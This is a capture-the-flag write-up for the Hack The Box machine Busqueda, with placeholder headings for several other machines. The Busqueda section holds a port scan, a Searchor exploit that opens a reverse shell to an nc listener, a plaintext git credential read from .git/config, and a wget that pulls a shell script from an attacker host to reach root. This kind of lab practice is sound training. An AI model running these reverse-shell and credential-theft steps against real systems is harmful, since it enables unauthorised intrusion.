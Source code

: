 
## Busqueda 

1. Rustscan and Nmap
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

nmap -p$(cat busqueda-open-ports.txt | cut -f1 -d '/' | tr '\n' ',') -T4 -A 10.10.11.208
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-06 23:14 EST
Nmap scan report for searcher.htb (10.10.11.208)
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
```

2. Searcher 2.4.0 exploit
```
┌──(kali㉿kali)-[~/OSCP/htb]
└─$ ./exploit.sh searcher.htb 10.10.16.5 8888
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is searcher.htb
[*] Input attacker is 10.10.16.5:8888
[*] Run the Reverse Shell... Press Ctrl+C after successful connection

┌──(kali㉿kali)-[~/OSCP/htb]
└─$ nc -lvnp 8888
svc@busqueda:/dev/shm$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
svc@busqueda:/dev/shm$ 
```

3. Found cody git credentials
```
svc@busqueda:/var/www/app/.git$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

4. Found git administrator credentials and use it login and found script which require file to be full-checkup.sh . 

5. Created reverse shell and execute. 
```
svc@busqueda:/dev/shm$ wget http://10.10.16.5/full-checkup.sh
wget http://10.10.16.5/full-checkup.sh
--2024-03-07 06:55:17--  http://10.10.16.5/full-checkup.sh
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 59 [text/x-sh]
Saving to: ‘full-checkup.sh’

     0K                                                       100% 6.25M=0s

2024-03-07 06:55:17 (6.25 MB/s) - ‘full-checkup.sh’ saved [59/59]

svc@busqueda:/dev/shm$ chmod 777 full-checkup.sh
chmod 777 full-checkup.sh
svc@busqueda:/dev/shm$ 
```

6. Obtained root as reverse shell and flag. 
```
┌──(kali㉿kali)-[~/OSCP/htb/CVE-2022-0847-DirtyPipe-Exploits]
└─$ nc -nvlp 8889                  
listening on [any] 8889 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.208] 33142
root@busqueda:/dev/shm# cd 
cd 
root@busqueda:~# ls
ls
ecosystem.config.js
root.txt
scripts
snap
root@busqueda:~# cat root.txt
cat root.txt
d64451a40ec5b932753239254ed83491
```

## UpDown

Too hard for OSCP, foothold requires many exploitation. 

## Cereal

Windwos machine, rated very hard, no point to attempt

## Pandora



## Broker



## Intentions 



## Soccer 


